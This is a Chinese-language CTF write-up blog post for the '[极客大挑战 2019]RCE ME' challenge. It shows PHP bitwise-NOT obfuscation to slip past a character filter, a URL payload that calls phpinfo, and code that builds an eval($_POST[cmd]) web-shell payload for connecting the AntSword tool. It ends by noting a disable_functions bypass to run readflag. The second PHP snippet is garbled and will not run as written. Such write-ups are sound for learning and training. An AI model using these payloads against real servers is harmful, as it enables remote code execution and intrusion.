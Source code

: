 ```yaml
---
title: '[极客大挑战 2019]RCE ME'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-07-28 21:51:40
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-617631.jpg
---
```


![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200728215504.png)

构造取反读取phpinfo

<?php
$s = 'phpinfo';
echo urlencode(~$s);
?>

payload：?code=(~%8F%97%8F%96%91%99%90)();

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200728221328.png)

构造取反连接蚁剑

<?php
a=′assert′;echourlencode( a)."\n";
b=′(eval(_POST[cmd]))';
echo urlencode(~$b)."\n";
?>

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200728225317.png)

看到根目录下存在flag和readflag文件。应该是通过执行readflag来读取flag，但是这里的shell命令基本上都被禁了。

我们可以通过蚁剑的绕过disable_functions来执行。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/afcvff.jpg)